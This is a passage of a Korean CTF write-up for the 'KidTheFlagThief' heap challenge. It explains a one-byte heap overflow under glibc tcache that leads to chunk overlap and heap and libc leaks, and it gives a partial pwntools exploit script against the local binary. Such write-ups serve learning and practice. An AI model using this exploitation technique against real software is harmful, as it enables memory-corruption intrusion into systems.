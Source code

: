 사용자는 임의 크기의 `raw_data` 청크를 할당할 수 있기 때문에, 1-byte 힙 오버플로우를 활용하여 인접한 청크의 `size`를 수정할 수 있다.

제공된 `libc.so.6` 파일을 확인하였을 때, Ubuntu 22.04 버전임을 알 수 있고, 이는 tcache 메모리 할당자를 사용한다.

tcache 특성 상, 인접한 청크와 병합하지도 않기에 size가 임의로 수정되어도 `main_arena`와 별개로 `tcache_perthread_struct`에서 관리되기 때문에 메모리 관련 검사로 에러가 발생할 확률도 없다시피 하다.

다만 `raw_data` 청크는 할당 시 `memset` 함수로 인해 0으로 초기화되기 때문에, 이에 유의하여 힙 청크를 구성해야 한다.

![청크 구성](2.png)

나의 경우엔 이렇게 기존 파일 구조체(C)가 새롭게 할당되는 파일 구조체(B)의 `raw_str`에 의해 초기화되더라도, 로직 상 추가되는 힙 포인터(`next`)를 활용하여 heap leak을 수행하였다.

이후에는 heap 내에 unsorted bin을 할당하여 libc leak을 수행하고, 스택에서 ROP를 하였다.

### **[0x03] 익스플로잇**

```python
from pwn import *
def changeDir(name):
    p.sendlineafter(b"$ ", f"cd {name}".encode())

def makeDir(name):
    p.sendlineafter(b"$ ", f"mkdir {name}".encode())

def makeFile(name, size):
    p.sendlineafter(b"$ ", f"touch {name}".encode())
    p.sendlineafter(b"Size: " , str(size).encode())

def removeFile(name):
    p.sendlineafter(b"$ ", f"rm {name}".encode())

def editFile(name, data):
    p.sendlineafter(b"$ ", f"edit {name}".encode())
    p.sendafter(b")\n", data)

def readFile(name):
    p.sendlineafter(b"$ ", f"cat {name}".encode())

context(arch='amd64', os='linux')
if args.REMOTE:
    p = remote('localhost', 12007)
    libc = ELF("libc.so.6", False)
else:
    p = process("./KidTheFlagThief", aslr=1, env={"LD_PRELOAD":"./libc.so.6"})
    libc = ELF("libc.so.6", False)

makeFile("A", 0x70)
removeFile("A")
makeFile("A", 0x18)
makeFile("B", 0x18)
makeFile("C", 0x108)

# 1. exploit off by one (size 0x20 -> 0xF1)
editFile("A", b'A'*0x17 + b'\n' + p8(0xF1))
removeFile("B")

# 2. chunk overlapping
makeFile("B", 0xE0)
readFile("B")

# 3. heap leak
p.recvuntil(b"\xf0")
heap = u64(b'\xf0' + p.recv(7)) - 0x125f0
root_dir = heap + 0x120c0
```